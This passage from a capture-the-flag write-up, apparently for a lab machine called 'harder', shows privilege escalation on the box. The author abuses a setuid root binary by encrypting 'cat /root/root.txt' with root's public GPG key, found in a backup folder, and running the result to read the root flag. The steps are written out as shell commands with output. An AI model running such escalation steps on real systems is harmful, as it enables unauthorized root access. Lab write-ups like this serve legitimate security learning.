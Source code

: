 Files in /usr/local/bin

    harder:~$ ls -la /usr/local/bin/
    total 32
    drwxr-xr-x    1 root     root          4096 Jul  7 22:28 .
    drwxr-xr-x    1 root     root          4096 May 29 14:20 ..
    **-rwsr-x---    1 root     evs          19960 Jul  6 21:28 execute-crypted**
    -rwxr-x---    1 root     evs            412 Jul  7 20:58 run-crypted.sh

We have the **execute-crypted** binary with **suid** set. So we need to follow along the **run-crypted.sh** script to get the root flag.

So we need to search for gpg key

    harder:~$ find / -name "root@harder*" 2>/dev/null
    /var/backup/root@harder.local.pub

So we have a public key. Now we need to encrypt the command file using this public key to get the root flag.

In order to sign, let’s first import the gpg key

    harder:~$ **gpg --import /var/backup/root@harder.local.pub**
    gpg: directory '/home/evs/.gnupg' created
    gpg: keybox '/home/evs/.gnupg/pubring.kbx' created
    gpg: /home/evs/.gnupg/trustdb.gpg: trustdb created
    gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
    gpg: Total number processed: 1
    gpg:               imported: 1

Create a filename with the command to read root flag

    harder:~$ **echo "cat /root/root.txt" > cmd**

Now encrypt the file

    harder:~$ **gpg --recipient root@harder.local cmd **
    gpg: WARNING: no command supplied.  Trying to guess what you mean ...
    gpg: no valid OpenPGP data found.
    gpg: processing message failed: Unknown system error
    harder:~$ gpg --recipient root@harder.local --encrypt cmd 
    gpg: 6C1C04522C049868: There is no assurance this key belongs to the named user

    sub  cv25519/6C1C04522C049868 2020-07-07 Administrator <root@harder.local>
     Primary key fingerprint: 6F99 621E 4D64 B6AF CE56  E864 C91D 6615 944F 6874
          Subkey fingerprint: E51F 4262 1DB8 87CB DC36  11CD 6C1C 0452 2C04 9868

    It is NOT certain that the key belongs to the person named
    in the user ID.  If you *really* know what you are doing,
    you may answer the next question with yes.

    Use this key anyway? (y/N) y

Which creates a file **cmd.gpg** in the directory

Running /usr/local/bin/execute-crypted with the encrypted file, we get the flag

    harder:~$ **/usr/local/bin/execute-crypted cmd.gpg** 
    gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
          "Administrator <root@harder.local>"
     <flag.txt>

This way I got the flags. This was a different type of OS, so enumerating the box was a bit difficult. Hope you liked the writeup. If you have any suggestions feel free to comment.
